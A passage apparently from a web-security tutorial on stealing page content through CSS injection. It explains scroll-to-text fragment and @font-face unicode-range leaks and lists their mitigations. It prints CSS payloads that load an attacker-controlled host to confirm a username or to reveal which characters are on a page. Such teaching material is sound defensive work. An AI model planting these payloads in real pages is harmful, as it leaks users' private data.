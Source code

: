 Which is sending the code:

```css
<style>:target::before { content : url(http://attackers-domain/?confirmed_existence_of_Administrator_username) }</style>
```

with the scroll-to-text fragment: `#:~:text=Administrator`

If the word Administrator is found, the indicated resource will be loaded.

There are three main mitigations:

1. **STTF can match only words or sentences on a web page**, theoretically making it impossible to leak random secrets or tokens (unless we break down the secret in one-letter paragraphs).
2. It is **restricted to top-level browsing contexts**, so it won’t work in an iframe, making the attack **visible to the victim**.
3. **User-activation gesture is needed for STTF to work**, so only navigations that are a result of user actions are exploitable, which greatly decreases the possibility to automate the attack without user interaction. However, there are certain conditions that the author of the above blog post discovered that facilitate the automation of the attack. Another, similar case, will be presented in PoC#3.
   1. There are some **bypasses** for this like **social engineering**, or **forcing common browser extensions to interact**.

For more information check the original report: [https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/](https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/)

### @font-face / unicode-range <a href="#text-node-exfiltration-i-ligatures" id="text-node-exfiltration-i-ligatures"></a>

You can specify **external fonts for specific unicode values** that will only be **gathered if those unicode values are present** in the page. For example:

```html
<style>
@font-face{
    font-family:poc;
    src: url(http://attacker.example.com/?A); /* fetched */
    unicode-range:U+0041;
}
@font-face{
    font-family:poc;
    src: url(http://attacker.example.com/?B); /* fetched too */
    unicode-range:U+0042;
}
@font-face{
    font-family:poc;
    src: url(http://attacker.example.com/?C); /* not fetched */
    unicode-range:U+0043;
}
#sensitive-information{
    font-family:poc;
}
</style>

<p id="sensitive-information">AB</p>htm
```
